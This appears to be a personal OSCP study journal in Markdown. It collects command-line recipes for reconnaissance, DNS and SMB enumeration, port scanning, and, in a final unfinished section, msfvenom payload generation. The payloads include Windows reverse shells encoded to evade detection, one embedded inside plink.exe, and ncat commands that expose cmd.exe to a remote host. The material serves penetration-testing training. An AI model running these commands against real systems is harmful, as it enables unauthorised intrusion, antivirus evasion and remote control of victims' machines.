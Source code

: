 # OSCP Journal

## General

Check if a service is running
```bash
root@kali:~# netstat -antp | grep sshd
```

Pull out hyperlinks from within a webpage:
```bash
grep "href=" index.html | cut -d "/" -f 3 | grep "\." | cut -d '"' -f 1 | sort -u
```

Output it to a file:
```bash
cat index.html | grep -o 'http://[^"]*' | cut -d "/" -f 3 | sort -u > list.txt
`for url in $(cat list.txt); do host $url; done
```

Bash-loop one-liner: (Add an '&' at the end of the line to background each loop to speed it up)
```bash
for targets in $(echo x.x.x.{0..255} | tr ' ' '\n'); do ping -c 2 $targets; done
```

Basic python loop:
```python
#!/usr/bin/python
import subprocess

target_range = "10.11.1."

for x in range(1,254):
	address_list = target_range + str(x)
	res = subprocess.call(['ping', '-c', '1', address_list])
	
	print address_list
```

### Ncat

Connect:
```bash
ncat -nve cmd.exe 10.11.0.37 444 --ssl 
```

Listen:
```bash
ncat -vl 444 --ssl  
```

Restrict IP connection
```bash
ncat --exec cmd.exe --allow x.x.x.x -vln 444 --ssl  
```

### Wireshark/tcpdump

Display filter:
```
tcp.port == 110
```

Filter traffic on a specific port
```
tcpdump -i <int> -n port 110
```

### Google-Fu

```
site:website.com
inurl:website.com "admin"
site:website.com filetype:docx
```
## Enumeration

### Email Harvester

```bash
root@kali:~# theharvester -d website.com -b google >google.txt
```

### whois

```bash
root@kali:~# whois website.com
```

Reverse lookups:
```bash
root@kali:~# whois x.x.x.x
```

### Recon-ng

```bash
root@kali:~# recon-ng
[recon-ng][default] > use recon/domains-contacts/whois_pocs
[recon-ng][default][whois_pocs] > show options
[recon-ng][default][whois_pocs] > set SOURCE website.com
[recon-ng][default][whois_pocs] > run
```

Search for vulnerabilties:
```bash
use recon/domains-vulnerabilities/....
```

### DNS

**host**

```bash
root@kali:~# host -t mx website.com
root@kali:~# host -t ns website.com
```

Check against subdomains from a list:
Create a list.txt full of names.

```bash
for ip in $(cat list.txt);do host $ip.website.com;done
```

**Zone transfer**

```bash
root@kali:~# host -l <domain name> <dns server address>
```

Clean it up:
```bash
root@kali:~# host -t ns website.com | cut -d " " -f 4
```

**DNSRecon**

```bash
root@kali:~# dnsrecon -d website.com -t axfr
```

**DNSEnum**

```bash
root@kali:~# dnsenum website.me
```

**DNS Nmap zone transfer**
```bash
nmap --script=dns-zone-transfer -p 53 ns1.website.com
```

### Port Scanning

nc connect/tcp scanning:
```bash
root@kali:~# nc -nvv -w 1 -z <ip> <port-range>
```

nc udp scanning
```bash
root@kali:~# nc -nv -u -z -w 1 <ip> <port-range>
```



**NMAP**

Ping scan and output to a grepable file
```bash
root@kali:~# nmap -sn -oG <filename.txt> <ip or range>
```

Cleanup results:
```bash
root@kali:~# grep Up <filename.txt> | cut -d " " -f 2 > <final-filename.txt>
```

Perform a quick service discovery on a list of IPs and output to another list against top 10 ports
```bash
root@kali:~# nmap -v -sV --top-ports=10 -iL <inputfilename.txt> -oG <outputfilename.txt>
```

Quick web sweep:
```bash
root@kali:~# nmap -p 80 <iprange>
```

OS Fingerprint:
```bash
root@kali:~# nmap -O <ip>
```

Sometimes if a host is UP but reports down. Add --disable-arp-ping:
```bash
nmap -v -p 445 --script=smb-vuln-* --script-args=unsafe-1 <ip> **--disable-arp-ping**
```

### SMB Enumeration

Check for smb vuln:
```bash
nmap -v -p 139,445 --script=smb-vuln-* --script-args=unsafe=1 -iL <filename.txt>
```

Nmap SMB scripts:
```bash
root@kali:~# ls -l /usr/share/nmap/scripts/smb*
```

Nmap NSE safe options:
```bash
unsafe == 1: kinda-safe
unsafe == 2: very unsafe
unsafe == anything_else: very safe
```

nbtscan (NetBIOS scanner)
```bash
root@kali:~# nbtscan -f <filename.txt>
root@kali:~# nbtscan -r <ip/cidr>
```

Enum4linux bash-loop:
```bash
for targets in $(cat <filename.txt>); do enum4linux $targets; done
```

rpclient
```bash
rpcclient -U "" <IP>
rpcclient$>srvinfo (server info and version)
enumdomusers (list users)
getdompwinfo (password policy)
```


Determine which servers are running Windows:
```bash
awk -F "OS: " '/^Nmap/ {a=$0} /OS: Windows/ {print a"\n"FS$2}' <smb-server-list.txt> | grep "Nmap" | cut -d " " -f 5 > smb-servers-running-windows.txt
```


## Exploitation

### msfvenom

Generate shell code:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```
raw Windows PE reverse Meterpreter executable
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=4444 -f exe -o shell_reverse.exe
```

Encoded windows shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
```

Encoded and embedded shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```

Reverse HTTPS meterpreter windows reverse shell (encrypted traffic/bypass packet inspection filters)
```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=10.11.0.5 LPORT=443 -f exe -o met_https_reverse.exe
```

> WORK IN PROGRESS
> WORK IN PROGRESS
> WORK IN PROGRESS
